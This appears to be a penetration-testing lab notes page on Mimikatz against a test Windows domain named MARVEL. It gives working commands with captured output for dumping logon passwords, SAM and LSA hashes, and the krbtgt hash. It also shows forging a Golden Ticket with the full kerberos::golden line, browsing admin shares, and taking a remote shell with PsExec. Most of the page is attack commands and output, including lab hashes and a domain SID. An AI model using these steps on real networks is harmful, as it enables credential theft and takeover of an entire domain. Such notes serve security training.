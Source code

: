 # Mimikatz

- Once we get Domain Admin we can use mimikatz to dump the creds
- Launch mimikatz from the target and run `privilege::debug` (will allow us to debug processes): 
  ```
  C:\Users\Administrator\Downloads>mimikatz.exe

    .#####.   mimikatz 2.2.0 (x86) #19041 Aug 10 2021 17:20:39
   .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
   ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
   ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
   '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

  mimikatz # privilege::debug
  Privilege '20' OK

  mimikatz #
  ```
- Can be useful on a compromised regular computer `sekurlsa::logonpasswords` we get NTLM (v1) hash and could try to use pass-the-hash.
  - With wdigest we can see passwords in cleartext (prior to win 7) after only deactivate so possible to reactivate it with mimikats and wait for somebody to log on.
  - Dump the sam `lsadump::sam` or `lsadump::sam /patch`
  - Dump lsa (Local Security Authority)  `lsadump::lsa /patch` we get ntlm hashes and try to crack them.
 

## Mimikatz - Golden Ticket Attack

- With a Golden ticket we can get access to any resource and system on the domain = complete access to the entire domain
 - `lsadump::lsa /inject /name:krbtgt`
    ```
    mimikatz # lsadump::lsa /inject /name:krbtgt
    Domain : MARVEL / S-1-5-21-1324315119-2624990979-1304259423

    RID  : 000001f6 (502)
    User : krbtgt

     * Primary
        NTLM : 0afd880b6c9c7207067f0e15dab634a9
        LM   :
      Hash NTLM: 0afd880b6c9c7207067f0e15dab634a9
        ntlm- 0: 0afd880b6c9c7207067f0e15dab634a9
        lm  - 0: 662f5b48c70e0c5211f72eabdcffcfa6

     * WDigest
      [STRIPPED]

     * Kerberos
        Default Salt : MARVEL.LOCALkrbtgt
        Credentials
          des_cbc_md5       : 074fc873e6c40157

     * Kerberos-Newer-Keys
        Default Salt : MARVEL.LOCALkrbtgt
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : e5755cc451bc84fbe6004005f363e0425838d134306ffb0cb3a2f323e02a8ac9
          aes128_hmac       (4096) : a14075bef6022520025c4054880073a2
          des_cbc_md5       (4096) : 074fc873e6c40157

     * NTLM-Strong-NTOWF
        Random Value : 97decc0bc95a167ce7ebc2dd728fb83a
    ```
- Take note of:
  - Domain SID: `S-1-5-21-1324315119-2624990979-1304259423`
  - NTLM Hash of krbtgt: `0afd880b6c9c7207067f0e15dab634a9`
- Pass the ticket: ` kerberos::golden /User:AnyDoesNotNeedToExist /domain:marvel.local /sid:S-1-5-21-1324315119-2624990979-1304259423 /krbtgt:0afd880b6c9c7207067f0e15dab634a9 /id:500 /ptt`
```
 mimikatz # kerberos::golden /User:AnyDoesNotNeedToExist /domain:marvel.local /sid:S-1-5-21-1324315119-2624990979-1304259423 /krbtgt:0afd880b6c9c7207067f0e15dab634a9 /id:500 /ptt
User      : AnyDoesNotNeedToExist
Domain    : marvel.local (MARVEL)
SID       : S-1-5-21-1324315119-2624990979-1304259423
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0afd880b6c9c7207067f0e15dab634a9 - rc4_hmac_nt
Lifetime  : 2/12/2022 10:32:39 AM ; 2/10/2032 10:32:39 AM ; 2/10/2032 10:32:39 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'AnyDoesNotNeedToExist @ marvel.local' successfully submitted for current session
```
- Get a cmd prmpt using the session and golden ticket `misc::cmd`
- We can access to anything on the network:
  ```
  C:\Users\Administrator\Downloads>dir \\THEDEFENDER\c$
   Volume in drive \\THEDEFENDER\c$ has no label.
   Volume Serial Number is 22E3-F05A

   Directory of \\THEDEFENDER\c$

  12/07/2019  01:14 AM    <DIR>          PerfLogs
  01/28/2022  02:29 PM    <DIR>          Program Files
  10/06/2021  05:58 AM    <DIR>          Program Files (x86)
  01/28/2022  04:33 PM    <DIR>          Share
  02/12/2022  05:34 AM    <DIR>          Users
  02/04/2022  01:19 PM    <DIR>          Windows
                 0 File(s)              0 bytes
                 6 Dir(s)  42,889,506,816 bytes free

  C:\Users\Administrator\Downloads>
  ```
- We can then use [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) to get a shell on a machine from the network 
  - We download psexec on our compromised machine
  - We get the shell 
    ```
    C:\Users\Administrator\Downloads\PSTools>PsExec.exe \\THEDEFENDER cmd.exe

    PsExec v2.34 - Execute processes remotely
    Copyright (C) 2001-2021 Mark Russinovich
    Sysinternals - www.sysinternals.com


    Microsoft Windows [Version 10.0.19044.1288]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>hostname
    THEDEFENDER
    ```

## Mimikatz - Resources
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Mimikatz - Wiki](https://github.com/gentilkiwi/mimikatz/wiki)
